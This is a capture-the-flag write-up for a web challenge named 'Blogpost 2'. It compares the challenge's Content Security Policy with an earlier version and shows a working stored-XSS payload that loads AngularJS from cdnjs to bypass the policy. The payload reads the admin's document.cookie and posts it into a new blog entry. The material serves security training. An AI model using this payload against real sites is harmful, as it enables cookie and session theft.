 ```yaml
---
layout: default
title: Blogpost 2
permalink: /:path/
parent: Web
nav_order: 2
---
```

# Blogpost 2

> Points: 725 [?]

## Description

> Look out for my blog posts, again!!
> File: `web_blogpost2.zip`

## Solution

### Understanding the application's features

As a follow-up to the `Blogpost` challenge, the application's features do not differ that much. However, there was a small difference in the source code.

### Analysing the source code

By using the `diff` command , we see that only the `src/app/index.js` differed between both applications.

```bash
$ diff web_blogpost/src/app/index.js web_blogpost2/src/app/index.js  
14c14
<         "default-src 'self'; script-src 'unsafe-inline' 'self' https://cdnjs.cloudflare.com; style-src-elem 'self' https://fonts.googleapis.com; font-src 'self' https://fonts.gstatic.com; connect-src 'self';"
---
>         "default-src 'self'; script-src 'self' 'unsafe-eval' https://cdnjs.cloudflare.com; style-src-elem 'self' https://fonts.googleapis.com; font-src 'self' https://fonts.gstatic.com; connect-src 'self';"
```

This affects our payload works as this meant that the browser will no longer execute inline javascript.

![](2022-12-06-17-28-53.png)

However, if we use Google's CSP Evaluator, we learn that the new CSP is still bypassable.

![](2022-12-06-17-30-46.png)

### Stealing the flag from the admin user

With a bit of [googling](https://github.com/bhaveshk90/Content-Security-Policy-CSP-Bypass-Techniques) and modifying our payload to achieve the same purpose,

![](2022-12-06-18-07-13.png)

We create a new blog post with an arbitrary title and the following content:

```html
<script src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.8.2/angular.min.js"></script>
<div ng-app ng-csp>
{{$eval.constructor('fetch("/post",{method:"POST",headers:{"Content-Type":"application/json"},body:JSON.stringify({title:"get flag here",content:document.cookie})});')()}}
</div>
```

After clicking on `Create` and browsing to the blog page, we see a new post by the `admin` user, with the flag printed nicely.

![](2022-12-06-18-04-19.png)

## Flag
`STF22{f4k3_fl4g_f0r_t3st1ng}`


